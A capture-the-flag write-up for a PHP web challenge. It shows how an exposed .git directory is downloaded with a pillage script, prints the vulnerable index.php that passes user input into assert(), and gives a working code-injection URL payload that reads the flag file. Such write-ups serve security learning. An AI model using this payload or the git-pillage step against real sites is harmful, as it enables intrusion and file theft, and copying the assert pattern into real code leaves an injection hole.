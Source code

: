 ![description](images/description)

The challenge contains a link to a website:
![site index](images/site.png)

Going to the about tab reveals that the site uses PHP and git.
![about page](images/about.png)

The server has it's git directory public available:
![git directory](images/git.png)

I used https://github.com/evilpacket/DVCS-Pillage to download the git directory contents:

./gitpillage.sh http web.chal.csaw.io:8000/

This gives access to the source of index.php:
~~~
<?php

if (isset($_GET['page'])) {
	$page = $_GET['page'];
} else {
	$page = "home";
}

$file = "templates/" . $page . ".php";

// I heard '..' is dangerous!
assert("strpos('$file', '..') === false") or die("Detected hacking attempt!");

// TODO: Make this look nice
assert("file_exists('$file')") or die("That file doesn't exist!");

?>
<!DOCTYPE html>
<html>
	<head>

        [irrelevant html stuff]...

		<div class="container" style="margin-top: 50px">
			<?php
				require_once $file;
			?>
			
		</div>
		
		<script src="https://cdnjs.cloudflare.com/ajax/libs/jquery/1.12.4/jquery.min.js" />
		<script src="https://cdnjs.cloudflare.com/ajax/libs/twitter-bootstrap/3.3.7/js/bootstrap.min.js" />
	</body>
</html>
~~~

After trying various ways to sneak '..' into the url, I remembered that assertions are generally not advised to be used in production code, so I looked up the php docs on assertions. It turns out that the string passed to the assert is evaluated as php code, meaning that we can inject code using the $page parameter.

After a lot of testing I came up with the solution:
http://web.chal.csaw.io:8000?page=', '..') === false and $myfile = fopen("templates/flag.php", "r") and exit(fread($myfile,filesize("templates/flag.php"))) or true or strpos('

When evaluated by index.php, the first assert becomes:
assert("strpos('templates/', '..') === false and $myfile = fopen("templates/flag.php", "r") and exit(fread($myfile,filesize("templates/flag.php"))) or true or strpos('.php', '..') === false") or die("Detected hacking attempt!");

This gets past the first assert, opens the flag.php file, and exits, printing its contents before the assertion fails.
![flag](images/flag.png)


